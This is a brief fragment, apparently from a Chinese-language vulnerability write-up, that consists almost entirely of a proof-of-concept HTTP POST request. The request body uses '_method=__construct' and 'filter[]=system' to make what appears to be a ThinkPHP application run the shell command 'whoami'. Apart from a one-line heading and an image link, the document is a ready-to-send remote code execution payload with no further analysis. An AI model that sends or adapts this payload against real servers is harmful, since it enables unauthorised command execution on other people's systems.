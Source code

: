 POC如下

```
POST /?s=captcha HTTP/1.1
Host: 127.0.0.1
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="119", "Not?A_Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 86

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=whoami
```

![Untitled](image/Untitled.png)
